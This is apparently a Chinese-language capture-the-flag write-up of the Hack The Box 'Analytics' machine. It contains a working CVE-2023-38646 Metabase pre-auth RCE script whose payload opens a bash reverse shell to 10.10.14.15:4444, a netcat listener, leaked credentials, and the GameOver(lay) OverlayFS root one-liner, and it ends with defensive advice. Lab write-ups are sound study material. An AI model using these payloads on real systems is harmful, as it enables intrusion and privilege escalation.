 ```yaml
---
title: "HTB: Analytics"
difficulty: Easy
date: 2024-12-15
tags: [HTB, Linux, CVE-2023-38646, Metabase, Docker]
featured: true
excerpt: "一台運行 Metabase 的 Easy 難度機器，透過 CVE-2023-38646 預認證 RCE 漏洞取得初始立足點，並利用 Ubuntu Overlay FS 權限提升漏洞提權至 root。"
---
```


## 機器資訊

- 平台: Hack The Box
- 難度: Easy
- IP: 10.10.11.233
- 作業系統: Linux

## 偵察階段

首先進行 Nmap 掃描：

```bash
nmap -sC -sV -oN nmap/initial 10.10.11.233
```

掃描結果：
- **22/tcp** - SSH (OpenSSH 8.2p1)
- **80/tcp** - HTTP (nginx 1.18.0)

訪問 80 端口發現一個數據分析平台，使用 Metabase 0.46.6 版本。

## 漏洞分析

### CVE-2023-38646 - Metabase Pre-Auth RCE

Metabase 版本 0.46.6 存在一個嚴重的預認證遠程代碼執行漏洞：

1. 攻擊者可以通過 `/api/setup/validate` 端點
2. 利用 setup token 繞過認證
3. 執行任意 H2 SQL 查詢
4. 通過 JDBC 連接字符串實現 RCE

### 取得 Setup Token

```bash
curl -s http://10.10.11.233/api/session/properties | jq -r '.["setup-token"]'
```

得到 token: `249fa03d-fd94-4d5b-b94f-b4ebf3df681f`

## Initial Access

使用公開的 POC 腳本進行攻擊：

```python
import requests
import base64

target = "http://10.10.11.233"
setup_token = "249fa03d-fd94-4d5b-b94f-b4ebf3df681f"

# Reverse shell payload
payload = f"bash -c 'bash -i >& /dev/tcp/10.10.14.15/4444 0>&1'"
encoded = base64.b64encode(payload.encode()).decode()

# Exploit
exploit = {
    "token": setup_token,
    "details": {
        "is_on_demand": False,
        "is_full_sync": False,
        "is_sample": False,
        "cache_ttl": None,
        "refingerprint": False,
        "auto_run_queries": True,
        "schedules": {},
        "details": {
            "db": f"zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;INIT=CREATE ALIAS SHELLEXEC AS $$ void shellexec(String cmd) throws java.io.IOException {{ Runtime.getRuntime().exec(new String[]{{\"bash\",\"-c\",cmd}}); }}$$\\;CALL SHELLEXEC('echo {encoded} | base64 -d | bash')",
            "advanced-options": False,
            "ssl": True
        },
        "name": "x",
        "engine": "h2"
    }
}

requests.post(f"{target}/api/setup/validate", json=exploit)
```

開啟監聽並執行腳本：

```bash
nc -lvnp 4444
python3 exploit.py
```

成功取得 shell，身份為 `metabase` 用戶在 Docker 容器內。

## 橫向移動

### 環境變數發現憑證

檢查環境變數：

```bash
env | grep -i pass
```

發現：
```
META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

嘗試 SSH 登入主機：

```bash
ssh metalytics@10.10.11.233
# 使用密碼: An4lytics_ds20223#
```

成功登入！取得 user flag：

```bash
cat /home/metalytics/user.txt
```

## 權限提升

### 系統資訊收集

```bash
uname -a
# Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu
```

這是 Ubuntu 22.04，kernel 版本 6.2.0-25 存在已知的權限提升漏洞。

### CVE-2023-2640 & CVE-2023-32629 - Ubuntu OverlayFS

這兩個漏洞允許本地用戶通過濫用 OverlayFS 的 copy_up 功能實現權限提升。

使用 GameOver(lay) 一行命令提權：

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("bash")'
```

命令解析：
1. 創建 overlay 文件系統結構
2. 複製 python3 到 lower 目錄
3. 設置 CAP_SETUID capability
4. 掛載 overlay
5. 觸發 copy_up 操作
6. 利用 python 提權到 root

執行後成功獲得 root shell：

```bash
id
# uid=0(root) gid=1000(metalytics) groups=1000(metalytics)

cat /root/root.txt
```

## Flags

```
user.txt: 7********************************3
root.txt: b********************************8
```

## 總結

這台機器展示了兩個重要的安全概念：

1. **CVE-2023-38646 (Metabase RCE)**: 應用程序預認證漏洞的危害性，強調了及時更新軟件的重要性
2. **Kernel 權限提升**: Ubuntu OverlayFS 漏洞提醒我們保持系統核心更新的必要性

### 防禦建議

- 升級 Metabase 至最新版本 (>0.46.6.1)
- 更新 Linux kernel 修補 OverlayFS 漏洞
- 避免在環境變數中存儲明文密碼
- 實施最小權限原則
- 定期進行安全審計

## 參考資料

- [CVE-2023-38646 - Metabase RCE](https://nvd.nist.gov/vuln/detail/CVE-2023-38646)
- [Ubuntu OverlayFS Exploit](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)
- [Metabase Security Advisory](https://www.metabase.com/blog/security-advisory)
